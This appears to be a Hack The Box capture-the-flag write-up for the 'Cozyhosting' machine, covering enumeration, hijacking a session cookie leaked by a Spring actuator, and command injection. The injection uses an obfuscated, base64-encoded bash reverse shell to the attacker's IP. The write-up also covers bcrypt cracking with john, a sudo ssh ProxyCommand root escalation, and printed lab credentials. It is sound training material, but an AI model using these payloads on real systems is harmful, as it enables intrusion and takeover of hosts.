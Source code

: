 ```yaml
---
title: HTB - Cozyhosting
date: 2023-11-25
categories: [CTF, Fullpwn]
tags: [htb, hackthebox, nmap, http, webserver, nginx, whatweb, wappalyzer, gobuster, dirsearch, cookies, burp-suite, jar, psql, postgres, hash, john, gtfobins]
img_path: /assets/htb/fullpwn/cozyhosting/
published: true
image:
    path: room_banner.jpg
---
```


## Overview

|:-:|:-:|
|Machine|[Cozyhosting](https://app.hackthebox.com/machines/559)|
|Rank|Easy|
|Time|3h14m|
|Focus|Dir-busting, cookies|

> CONTENT HIDDEN - ACTIVE MACHINE!
{: .prompt-warning}

<!-- ## 1. Enumeration

```shell
# port scanning
sudo nmap -sS -sC -sV -O -Pn --min-rate 10000 cozy

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.3 (Ubuntu Linux; protocol 2.0)

80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://cozyhosting.htb
|_http-server-header: nginx/1.18.0 (Ubuntu)

Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## 2. Web Server Enum

```shell
# tech used
whatweb http://cozyhosting.htb

http://cozyhosting.htb [200 OK] Bootstrap, Content-Language[en-US], Country[RESERVED][ZZ], Email[info@cozyhosting.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.18.0 (Ubuntu)], IP[10.10.11.230], Lightbox, Script, Title[Cozy Hosting - Home], UncommonHeaders[x-content-type-options], X-Frame-Options[DENY], X-XSS-Protection[0], nginx[1.18.0]
```

```page-source
    <!-- =======================================================
    * Template Name: FlexStart
    * Updated: Mar 10 2023 with Bootstrap v5.2.3
    * Template URL: https://bootstrapmade.com/flexstart-bootstrap-startup-template/
    * Author: BootstrapMade.com
    * License: https://bootstrapmade.com/license/
    ======================================================== --
```

```page-source-login
   <!-- =======================================================
    * Template Name: NiceAdmin
    * Updated: Mar 09 2023 with Bootstrap v5.2.3
    * Template URL: https://bootstrapmade.com/nice-admin-bootstrap-admin-html-template/
    * Author: BootstrapMade.com
    * License: https://bootstrapmade.com/license/
    ======================================================== --
```

<figure>
    <img src="wappalyzer.png"
    alt="Wappalyzer report" >
</figure>

```shell
gobuster dir -u http://cozyhosting.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://cozyhosting.htb
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index                (Status: 200) [Size: 12706]
/login                (Status: 200) [Size: 4431]
/admin                (Status: 401) [Size: 97]
/logout               (Status: 204) [Size: 0]
/error                (Status: 500) [Size: 73]
```

```shell
dirsearch -u http://cozyhosting.htb/
/usr/lib/python3/dist-packages/dirsearch/dirsearch.py:23: DeprecationWarning: pkg_resources is deprecated as an API. See https://setuptools.pypa.io/en/latest/pkg_resources.html
  from pkg_resources import DistributionNotFound, VersionConflict

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: /home/kali/reports/http_cozyhosting.htb/__23-11-22_21-03-43.txt

Target: http://cozyhosting.htb/

[21:03:43] Starting:
[21:03:48] 200 -    0B  - /;/json
[21:03:48] 200 -    0B  - /;/login
[21:03:48] 200 -    0B  - /;json/
[21:03:48] 200 -    0B  - /;/admin
[21:03:48] 400 -  435B  - /\..\..\..\..\..\..\..\..\..\etc\passwd
[21:03:48] 200 -    0B  - /;login/
[21:03:48] 200 -    0B  - /;admin/
[21:03:48] 400 -  435B  - /a%5c.aspx
[21:03:49] 200 -    0B  - /actuator/;/auditevents
[21:03:49] 200 -    0B  - /actuator/;/auditLog
[21:03:49] 200 -    0B  - /actuator/;/caches
[21:03:49] 200 -    0B  - /actuator/;/configurationMetadata
[21:03:49] 200 -    0B  - /actuator/;/env
[21:03:49] 200 -    0B  - /actuator/;/configprops
[21:03:49] 200 -    0B  - /actuator/;/events
[21:03:49] 200 -    0B  - /actuator/;/exportRegisteredServices
[21:03:49] 200 -    0B  - /actuator/;/healthcheck
[21:03:49] 200 -    0B  - /actuator/;/dump
[21:03:49] 200 -    0B  - /actuator/;/heapdump
[21:03:49] 200 -    0B  - /actuator/;/conditions
[21:03:49] 200 -    0B  - /actuator/;/beans
[21:03:49] 200 -    0B  - /actuator/;/health
[21:03:49] 200 -    0B  - /actuator/;/features
[21:03:49] 200 -    0B  - /actuator/;/httptrace
[21:03:49] 200 -    0B  - /actuator/;/info
[21:03:49] 200 -    0B  - /actuator/;/integrationgraph
[21:03:49] 200 -    0B  - /actuator/;/flyway
[21:03:49] 200 -    0B  - /actuator/;/jolokia
[21:03:49] 200 -    0B  - /actuator/;/liquibase
[21:03:49] 200 -    0B  - /actuator/;/logfile
[21:03:49] 200 -    0B  - /actuator/;/loggers
[21:03:49] 200 -    0B  - /actuator/;/loggingConfig
[21:03:49] 200 -    0B  - /actuator/;/metrics
[21:03:49] 200 -    0B  - /actuator/;/mappings
[21:03:49] 200 -    0B  - /actuator/;/prometheus
[21:03:49] 200 -    0B  - /actuator/;/scheduledtasks
[21:03:49] 200 -    0B  - /actuator/;/refresh
[21:03:49] 200 -    0B  - /actuator/;/registeredServices
[21:03:49] 200 -    0B  - /actuator/;/resolveAttributes
[21:03:49] 200 -    0B  - /actuator/;/releaseAttributes
[21:03:49] 200 -    0B  - /actuator/;/sessions
[21:03:49] 200 -    0B  - /actuator/;/ssoSessions
[21:03:49] 200 -    0B  - /actuator/;/shutdown
[21:03:49] 200 -    0B  - /actuator/;/sso
[21:03:49] 200 -    0B  - /actuator/;/springWebflow
[21:03:49] 200 -    0B  - /actuator/;/statistics
[21:03:49] 200 -    0B  - /actuator/;/threaddump
[21:03:49] 200 -    0B  - /actuator/;/trace
[21:03:49] 200 -    0B  - /actuator/;/status
[21:03:49] 200 -  245B  - /actuator/sessions
[21:03:49] 200 -  634B  - /actuator
[21:03:49] 200 -    5KB - /actuator/env
[21:03:49] 200 -  124KB - /actuator/beans
[21:03:49] 200 -   15B  - /actuator/health
[21:03:49] 200 -   10KB - /actuator/mappings
[21:03:49] 401 -   97B  - /admin
[21:03:49] 200 -    0B  - /admin/%3bindex/
[21:03:50] 200 -    0B  - /admin;/
[21:03:50] 200 -    0B  - /Admin;/
[21:03:56] 200 -    0B  - /axis//happyaxis.jsp
[21:03:56] 200 -    0B  - /axis2-web//HappyAxis.jsp
[21:03:56] 200 -    0B  - /axis2//axis2-web/HappyAxis.jsp
[21:04:00] 200 -    0B  - /Citrix//AccessPlatform/auth/clientscripts/cookies.js
[21:04:04] 200 -    0B  - /engine/classes/swfupload//swfupload.swf
[21:04:04] 200 -    0B  - /engine/classes/swfupload//swfupload_f9.swf
[21:04:04] 500 -   73B  - /error
[21:04:04] 200 -    0B  - /examples/jsp/%252e%252e/%252e%252e/manager/html/
[21:04:04] 200 -    0B  - /extjs/resources//charts.swf
[21:04:07] 200 -    0B  - /html/js/misc/swfupload//swfupload.swf
[21:04:08] 200 -    0B  - /jkstatus;
[21:04:10] 200 -    4KB - /login
[21:04:10] 200 -    0B  - /login.wdm%2e
[21:04:11] 204 -    0B  - /logout

Task Completed
```

<figure>
    <img src="actuator_sessions.png"
    alt="actuator-sessions subdirectory" >
</figure>

> Change cookie value with Burp Suite.

<figure>
    <img src="logged_in.png"
    alt="Logging into the website" >
</figure>

# 3. Initial Foothold

<figure>
    <img src="burp_admin_execute-ssh.png"
    alt="Execute ssh function" >
</figure>

<figure>
    <img src="bash_error.png"
    alt="Bash response error" >
</figure>

<figure>
    <img src="execute_ssh_without_user.png"
    alt="SSH response info" >
</figure>

```shell
echo "bash -i >& /dev/tcp/10.10.14.13/4444 0>&1" | base64 -w 0
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK
```

```shell
;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;
```

> URL encode key chars (`CTRL+U`) and send the above payload as the `username` param. 

```shell
nc -lvnp 4444
listening on [any] 4444 ...
connect to [10.10.14.13] from (UNKNOWN) [10.10.11.230] 40406
bash: cannot set terminal process group (1064): Inappropriate ioctl for device
bash: no job control in this shell
app@cozyhosting:/app$
```

## 4. Lateral movement

> Stabilize shell.

```shell
app@cozyhosting:/app$ netstat -ltn
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 127.0.0.1:5432          0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN
tcp        0      0 127.0.0.53:53           0.0.0.0:*               LISTEN
tcp6       0      0 :::22                   :::*                    LISTEN
tcp6       0      0 127.0.0.1:8080          :::*                    LISTEN

app@cozyhosting:/app$ netstat -lt
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State
tcp        0      0 localhost:postgresql    0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:ssh             0.0.0.0:*               LISTEN
tcp        0      0 0.0.0.0:http            0.0.0.0:*               LISTEN
tcp        0      0 localhost:domain        0.0.0.0:*               LISTEN
tcp6       0      0 [::]:ssh                [::]:*                  LISTEN
tcp6       0      0 localhost:http-alt      [::]:*                  LISTEN
```

```shell
app@cozyhosting:/app$ ls
cloudhosting-0.0.1.jar

# transfer file
app@cozyhosting:/app$ python3 -m http.server 8888
Serving HTTP on 0.0.0.0 port 8888 (http://0.0.0.0:8888/) ...
```

```shell
wget http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
--2023-11-25 17:21:06--  http://cozyhosting.htb:8888/cloudhosting-0.0.1.jar
Resolving cozyhosting.htb (cozyhosting.htb)... 10.10.11.230
Connecting to cozyhosting.htb (cozyhosting.htb)|10.10.11.230|:8888... connected.
HTTP request sent, awaiting response... 200 OK
Length: 60259688 (57M) [application/java-archive]
Saving to: ‘cloudhosting-0.0.1.jar’

cloudhosting-0.0.1.ja 100%[========================>]  57.47M  11.5MB/s    in 5.5s

2023-11-25 17:21:12 (10.5 MB/s) - ‘cloudhosting-0.0.1.jar’ saved [60259688/60259688]
```

```shell
ls
cloudhosting-0.0.1.jar

file cloudhosting-0.0.1.jar
cloudhosting-0.0.1.jar: Java archive data (JAR)

apropos cloudhosting-0.0.1.jar
cloudhosting-0.0.1.jar: nothing appropriate.
```

> [How to open JARs](https://www.makeuseof.com/jar-file-open-using-command-line/).

```shell
# check content
jar tf cloudhosting-0.0.1.jar
META-INF/
META-INF/MANIFEST.MF
org/
org/springframework/
org/springframework/boot/
org/springframework/boot/loader/
org/springframework/boot/loader/ClassPathIndexFile.class
org/springframework/boot/loader/ExecutableArchiveLauncher.class
org/springframework/boot/loader/JarLauncher.class
org/springframework/boot/loader/LaunchedURLClassLoader$DefinePackageCallType.class
org/springframework/boot/loader/LaunchedURLClassLoader$UseFastConnectionExceptionsEnumeration.class
org/springframework/boot/loader/LaunchedURLClassLoader.class
org/springframework/boot/loader/Launcher.class
org/springframework/boot/loader/MainMethodRunner.class
...
```

```shell
# extract file
jar xf cloudhosting-0.0.1.jar
ls
BOOT-INF  cloudhosting-0.0.1.jar  META-INF  org

┌──(kali㉿CSpanias)-[~/htb/cozyhosting/BOOT-INF/classes]
└─$ cat application.properties
server.address=127.0.0.1
server.servlet.session.timeout=5m
management.endpoints.web.exposure.include=health,beans,env,sessions,mappings
management.endpoint.sessions.enabled = true
spring.datasource.driver-class-name=org.postgresql.Driver
spring.jpa.database-platform=org.hibernate.dialect.PostgreSQLDialect
spring.jpa.hibernate.ddl-auto=none
spring.jpa.database=POSTGRESQL
spring.datasource.platform=postgres
spring.datasource.url=jdbc:postgresql://localhost:5432/cozyhosting
spring.datasource.username=postgres
spring.datasource.password=Vg&nvzAQ7XxR
```

```shell
app@cozyhosting:/app$ psql -h 127.0.0.1 -U postgres
Password for user postgres:
psql (14.9 (Ubuntu 14.9-0ubuntu0.22.04.1))
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
Type "help" for help.

postgres=#
```

> Postgres [cheatsheet](https://postgrescheatsheet.com/#/databases).

```shell
# list databases
postgres=# \l
                                   List of databases
    Name     |  Owner   | Encoding |   Collate   |    Ctype    |   Access privileges
-------------+----------+----------+-------------+-------------+-----------------------
 cozyhosting | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 postgres    | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 |
 template0   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
 template1   | postgres | UTF8     | en_US.UTF-8 | en_US.UTF-8 | =c/postgres          +
             |          |          |             |             | postgres=CTc/postgres
(4 rows)

# connect to cozyhosting database
postgres=# \c cozyhosting
SSL connection (protocol: TLSv1.3, cipher: TLS_AES_256_GCM_SHA384, bits: 256, compression: off)
You are now connected to database "cozyhosting" as user "postgres".

# list tables
cozyhosting=# \dt
         List of relations
 Schema | Name  | Type  |  Owner
--------+-------+-------+----------
 public | hosts | table | postgres
 public | users | table | postgres
(2 rows)

cozyhosting=# select * from users;
 name | password | role
------+----------+-------
kanderson | $2a$10$E/Vcd9ecflmPudWeLSEIv.cvK6QjxjWlWXpij1NVNV3Mm6eH58zim | User
admin | $2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm | Admin

cozyhosting-# select * from hosts;
 id | username  |      hostname
----+-----------+--------------------
  1 | kanderson | suspicious mcnulty
  5 | kanderson | boring mahavira
  6 | kanderson | stoic varahamihira
  7 | kanderson | awesome lalande
(4 rows)
```

```shell
┌──(kali㉿CSpanias)-[~/htb/cozyhosting]
└─$ echo '$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm' > hash

┌──(kali㉿CSpanias)-[~/htb/cozyhosting]
└─$ cat hash
$2a$10$SpKYdHLB0FOaT7n3x72wtuS0yR8uqqbNNpIPjUb2MZib3H9kVO8dm
```

> `$2a$` is [_blowfish_](https://www.baeldung.com/cs/des-vs-3des-vs-blowfish-vs-aes#3-blowfish).

```shell
┌──(kali㉿CSpanias)-[~/htb/cozyhosting]
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Using default input encoding: UTF-8
Loaded 1 password hash (bcrypt [Blowfish 32/64 X3])
Cost 1 (iteration count) is 1024 for all loaded hashes
Will run 16 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
manchesterunited (?)
1g 0:00:00:05 DONE (2023-11-25 18:00) 0.1814g/s 522.6p/s 522.6c/s 522.6C/s onlyme..soccer9
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

```shell
app@cozyhosting:/app$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
app:x:1001:1001::/home/app:/bin/sh
postgres:x:114:120:PostgreSQL administrator,,,:/var/lib/postgresql:/bin/bash
josh:x:1003:1003::/home/josh:/usr/bin/bash
_laurel:x:998:998::/var/log/laurel:/bin/fals
```

```shell
app@cozyhosting:/app$ su josh
Password:
# manchesterunited
josh@cozyhosting:/app$
josh@cozyhosting:/app$ cat ~/user.txt
1ce25812e75a54178b64f6258b0d83c6
```

## 5. Privilege escalation

```shell
josh@cozyhosting:/app$ sudo -l
[sudo] password for josh:
# manchesterunited
Matching Defaults entries for josh on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User josh may run the following commands on localhost:
    (root) /usr/bin/ssh *
```

<figure>
    <img src="gtfobins_sudo_ssh.png"
    alt="GTFO Sudo ssh" >
</figure>

```shell
josh@cozyhosting:/app$ sudo ssh -o ProxyCommand=';sh 0<&2 1>&2' x
# id
uid=0(root) gid=0(root) groups=0(root)
# cat ~/root.txt
07964e5398eaa692f7994088783567f3
```

## New things

1. [`dirsearch`](https://github.com/maurosoria/dirsearch)

2. White Label Error Page

    > _WhiteLabel Error Handling is a simple way to handle errors that is easy to customize. You can change the error pages that are displayed to users, and you can also configure the error code that is displayed and whether or not the stack trace is included._

    <figure>
        <img src="whitelabel_error_page.jpg"
        alt="White label error page" >
    </figure>

    <figure>
        <img src="spring_actuators_hacktricks.png"
        alt="White label error page" >
    </figure>

    > [Spring Actuators](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/spring-actuators)

    The Spring Boot Framework includes a number of features called actuators to help you monitor and manage your web application when you push it to production. Intended to be used for auditing, health, and metrics gathering, they can also open a hidden door to your server when misconfigured.
    
    When a Spring Boot application is running, it automatically registers several endpoints (such as '/health', '/trace', '/beans', '/env' etc) into the routing process. For Spring Boot 1 - 1.4, they are accessible without authentication, causing significant problems with security. Starting with Spring version 1.5, all endpoints apart from '/health' and '/info' are considered sensitive and secured by default, but this security is often disabled by the application developers.
    
    The following Actuator endpoints could potentially have security implications leading to possible vulnerabilities:

    /dump - displays a dump of threads (including a stack trace)
    /trace - displays the last several HTTP messages (which could include session identifiers)
    /logfile - outputs the contents of the log file
    /shutdown - shuts the application down
    /mappings - shows all of the MVC controller mappings
    /env - provides access to the configuration environment
    /restart - restarts the application
    
    **For Spring 1x, they are registered under the root URL, and in 2x they moved to the "/actuator/" base path.**


3. URL key chars encoding:

    ```shell
    # 
    ;echo${IFS%??}"YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA+JjEK"${IFS%??}|${IFS%??}base64${IFS%??}-d${IFS%??}|${IFS%??}bash;

    # URL encoded
    %3b%65%63%68%6f%24%7b%49%46%53%25%3f%3f%7d%22%59%6d%46%7a%61%43%41%74%61%53%41%2b%4a%69%41%76%5a%47%56%32%4c%33%52%6a%63%43%38%78%4d%43%34%78%4d%43%34%78%4e%43%34%78%4d%79%38%30%4e%44%51%30%49%44%41%2b%4a%6a%45%4b%22%24%7b%49%46%53%25%3f%3f%7d%7c%24%7b%49%46%53%25%3f%3f%7d%62%61%73%65%36%34%24%7b%49%46%53%25%3f%3f%7d%2d%64%24%7b%49%46%53%25%3f%3f%7d%7c%24%7b%49%46%53%25%3f%3f%7d%62%61%73%68%3b%0a

    # URL key chars encoded
    %3becho${IFS%25%3f%3f}"YmFzaCAtaSA%2bJiAvZGV2L3RjcC8xMC4xMC4xNC4xMy80NDQ0IDA%2bJjEK"${IFS%25%3f%3f}|${IFS%25%3f%3f}base64${IFS%25%3f%3f}-d${IFS%25%3f%3f}|${IFS%25%3f%3f}bash%3b
    ```

4. Internal Field Separator (IFS) variable

    - [Bash IFS - What is the Internal Field Separator?](https://delightlylinux.wordpress.com/2020/02/16/bash-ifs-what-is-the-internal-field-separator/)
    - [Linux Shell - What is IFS?](https://www.theunixschool.com/2020/05/linux-shell-what-is-ifs.html)

5. JAR file manipulation

    - [How to Open a JAR File Using the Command Line](https://www.makeuseof.com/jar-file-open-using-command-line/) -->

<figure>
    <img src="cozy_pwned.png"
    alt="Cozy machine pwned" >
</figure>